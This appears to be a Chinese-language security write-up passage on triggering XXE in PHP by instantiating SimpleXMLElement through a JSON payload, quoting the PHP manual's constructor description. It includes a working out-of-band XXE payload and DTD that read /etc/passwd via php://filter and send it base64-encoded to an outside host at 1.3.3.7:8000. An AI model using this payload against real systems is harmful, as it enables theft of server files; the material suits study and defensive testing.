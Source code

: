  2.实例化SimpleXMLElement进行XXE攻击，查看php手册，SimpleXMLElement构造函数说明如下：
> **SimpleXMLElement::__construct**
> 
> (PHP 5, PHP 7)
> 
> SimpleXMLElement::__construct — Creates a new SimpleXMLElement object
> 
> **说明** 
> final public SimpleXMLElement::__construct ( string $data [, int $options = 0 [, bool $data_is_url = FALSE [, string $ns = "" [, bool $is_prefix = FALSE ]]]] )
> 
> 创建一个新的SimpleXMLElement对象。
> 
> 参数 
> 
> data
> 
> 格式良好的XML字符串或XML文档的路径或URL（如果 data_is_url是）TRUE。
> 
> options
可选地用于指定其他Libxml参数。
> 
> 注意：
> 可能需要传递LIBXML_PARSEHUGE 以能够处理深度嵌套的XML或非常大的文本节点。
> 
> data_is_url
> 
> 默认情况下data_is_url是FALSE。使用TRUE指定data的路径或URL到一个XML文件，而不是字符串数据。
> 
> ns
> 命名空间前缀或URI。
> is_prefix
> TRUE如果ns是前缀，FALSE如果是URI; 默认为FALSE。

 所以构造形如`{"SimpleXMLElement":{"data":"http://localhost/xxe.xml","options":2,"data_is_url":1,"ns":"","is_prefix":0}}`其中SimpleXMLElement为实例化函数名，后续payload为SimpleXMLElement构造函数的内容，xxe.xml为XML实体文件。XML实体文件写法可以参考[XXE漏洞分析 from 404 Not Found](http://www.4o4notfound.org/index.php/archives/29/#pingback-28)这里就不多做探讨。

 举一个例子:
```xxe.xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://1.3.3.7:8000/xxe.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```

```xml.dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">      //这里使用base64编码是起读取文件时不丢失一些特殊符号的作用
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://1.3.3.7:8000/?%data;'>">
```

